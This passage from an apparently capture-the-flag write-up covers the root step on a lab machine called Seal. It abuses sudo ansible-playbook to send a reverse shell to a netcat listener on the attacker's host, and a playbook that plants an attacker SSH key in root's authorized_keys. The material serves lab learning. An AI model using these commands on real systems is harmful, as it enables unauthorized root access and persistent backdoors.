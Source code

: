 ```

luis@seal:/dev/shm$ sudo ansible-playbook rev.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] *******************************************************************************************************************

TASK [Gathering Facts] *************************************************************************************************************
ok: [localhost]

TASK [rev] *************************************************************************************************************************

```

But at `nc` there’s a shell:

```

oxdf@parrot$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.250] 49578
root@seal:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)

```

I can grab `root.txt`:

```

root@seal:~# cat root.txt
cfe39341************************

```

#### Via SSH

I could just as easily create a playbook to put my public SSH key into the root’s `authorized_keys` file:

```
- hosts: localhost
  tasks:
  - name: rev
    shell: mkdir -p /root/.ssh; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys

```

After running this, I can connect as root:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@seal.htb 
...[snip]...
root@seal:~# 

```
